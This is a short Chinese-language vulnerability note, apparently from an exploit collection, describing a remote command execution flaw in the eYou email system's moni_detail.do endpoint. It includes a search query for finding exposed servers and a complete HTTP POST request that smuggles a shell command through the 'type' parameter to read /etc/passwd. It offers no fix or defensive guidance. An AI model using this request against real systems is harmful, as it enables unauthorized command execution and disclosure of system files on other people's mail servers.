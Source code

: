 # 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>亿邮电子邮件系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="亿邮电子邮件系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103732287.png)



漏洞请求包如下



```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103731648.png)



